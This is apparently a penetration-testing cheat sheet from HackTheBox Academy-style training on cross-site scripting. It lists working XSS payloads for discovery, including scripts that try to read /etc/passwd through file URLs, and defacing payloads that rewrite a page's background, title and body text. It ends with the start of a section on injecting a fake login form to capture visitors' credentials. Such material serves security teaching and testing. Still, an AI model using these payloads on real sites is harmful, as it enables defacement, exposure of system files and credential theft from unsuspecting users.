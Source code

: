 # Discovery
## [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) and [XSS Payloads](https://github.com/payloadbox/xss-payload-list)
```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
<iframe src=\"javascript:alert('xss')\">
<iframe src="javascript:alert('xss')">
<iframe src='javascript:alert('xss')'>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
<script> var x = new XMLHttpRequest(); x.open("GET", "file:///etc/passwd", true); x.onload = function(){ document.write(x.responseText); }; x.send(); </script>
```

# Defacing
One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. Defacing a website means changing its look for anyone who visits the website.

## Changing Background
```html
<script>document.body.style.background = "black"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## Changing Page Title
```html
<script>document.title = 'HackTheBox Academy'</script>
```

## Changing Page Text
```js
document.getElementById("todo").innerHTML = "New Text"
document.getElementsByTagName('body')[0].innerHTML = "New Text"

<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```


# Phishing
## Login Form Injection
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.
